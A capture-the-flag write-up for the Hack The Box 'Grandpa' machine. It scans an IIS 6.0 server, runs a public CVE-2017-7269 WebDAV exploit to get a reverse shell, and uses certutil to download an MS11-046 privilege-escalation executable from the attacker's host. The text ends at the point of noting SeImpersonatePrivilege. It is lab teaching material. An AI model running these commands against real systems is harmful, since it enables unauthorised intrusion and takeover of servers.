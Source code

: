# Box: Grandpa
# Level: Easy
# OS: Windows
<hr>
Lets get started

# Recon

## Portscanning

command:```nmap -A -v -T4 -p- 10.129.95.233```

```
Nmap scan report for 10.129.95.233
Host is up (0.22s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Mon, 13 Feb 2023 16:46:19 GMT
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   244.91 ms 10.10.14.43
2   245.07 ms 10.129.95.233

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 13 17:46:24 2023 -- 1 IP address (1 host up) scanned in 250.56 seconds
```
From our scan we can see we have just 1 open port, this means our enumeration today will be focused on port 80.



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb7731fd-6a41-48cb-986b-b26f248f919e)

Well, there was nothing interesting in the page source actually.

Going back to the nmap scan, I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ccc2038-57f4-4ae5-ad11-4d48d571a03b)

Alright, so I think there's an exploit for that guy I highlighted

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9dd310ad-45ad-4604-9992-4f5561b5a543)

I was right hehehe. Well since we found our attack vector, lets exploit😎



# Exploitation

During the search for exploits I found [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

You can just clone it, so you'll be able to use  it

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa]
└─$ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
Cloning into 'iis6-exploit-2017-CVE-2017-7269'...
remote: Enumerating objects: 6, done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 6
Receiving objects: 100% (6/6), done.
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa]
└─$ cd iis6-exploit-2017-CVE-2017-7269 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa/iis6-exploit-2017-CVE-2017-7269]
└─$ ls -la         
total 32
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  ..
drwxr-xr-x 8 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .git
-rw-r--r-- 1 bl4ck4non bl4ck4non 12313 Sep 20 17:15 'iis6 reverse shell'
-rw-r--r-- 1 bl4ck4non bl4ck4non    66 Sep 20 17:15  README.md
```
Lets try to run the exploit

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa/iis6-exploit-2017-CVE-2017-7269]
└─$ python2 iis6\ reverse\ shell             
usage:iis6webdav.py targetip targetport reverseip reverseport
```
So, we have to specify the targetip and targetport, also our tun0 ip address and the port we plan on listening on

First, lets setup our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c8d39bf3-5ab5-4ca3-ab3a-6e11d401c3af)

Now, lets run the exploit script

command:```python2 iis6\ reverse\ shell 10.129.74.174 80 10.10.14.122 1234```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fa7a90cc-f39f-48ac-9f2d-29d7ea98a203)

Checking our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0cb72701-5ce3-4176-a704-f6bcdfab17a6)

We got a shell as ```nt authority\network service```, this means we  have to escalate our privileges



# Privilege Escalation

Running the ```systeminfo``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2cb1c3ce-0253-4775-a317-b811473f08ad)

That's an outdated kernel I think, checking for available exploits, I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fe8265eb-d315-4f2e-9bda-0c68d3483a84)

You can download the ```.exe``` exploit [here](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe)

Download the exploit and send it over to the target machine

command:```certutil -urlcache -f http://10.10.14.122/ms11-046.exe exploit.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7a8772ad-3256-44d9-8794-2709314d6cbe)

oops, we are unable to run the command hehe.

Moving on😅, running the command ```whoami /priv```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/73f7870f-1161-4e00-9a75-319a23287d8e)

As we can see ```SeImpersonatePrivilege``` is enabaled hehe



















